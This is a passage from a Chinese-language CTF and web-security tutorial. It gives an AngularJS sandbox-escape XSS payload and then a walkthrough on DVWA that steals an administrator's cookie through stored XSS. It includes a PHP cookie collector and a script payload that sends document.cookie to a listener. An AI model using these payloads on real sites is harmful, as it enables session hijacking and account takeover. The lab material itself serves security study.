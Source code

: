 `payload`为

```
level6?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

参考：
- [1] [《从0到1：CTFer成长之路》 配套题目Web WP](https://blog.csdn.net/rfrder/article/details/108930033)
- [2] [AngularJS客户端模板注入（XSS）](https://nosec.org/home/detail/4153.html)
- [3] [AngularJS Sandbox Bypasses](https://xz.aliyun.com/t/4638?time__1311=n4%2Bxni0Qi%3DY6DCDlxGrbDymD9G%3DGC09%2B0FUeD)
:::

## XSS劫持Cookie

### 原理

在本地搭建一个接受Cookie的服务，创建`cookiein.php`如下：
```php
<?php
$cookie=$_GET['cookie'];
file_put_contents('cookie.txt', $cookie);
?>
```
并新建一个`cookie.txt`文件存放获取的cookie。

然后在目标网站植入xss漏洞，使其访问本地的`cookiein.php`即可。

`payload`如下：`<script>document.location='http://127.0.0.1:8888/cookiein.php?cookie='+document.cookie;</script>`

### 演示

以[DVWA](https://github.com/digininja/DVWA/blob/master/README.zh.md)靶场为例。

在Firefox浏览器登录管理员账号，在edge登录一个普通账号（从DVWA的数据库可以查到`select * from dvwa.users;`），现在用普通账号来盗取管理员账号的cookie。

用edge在存储型xss中植入`payload`，当管理员打开此页面就会把cookie发送到本地的`cookiein.php`并保存在`cookie.txt`内，然后在edge把cookie直接修改成获取到的管理员的cookie即可。
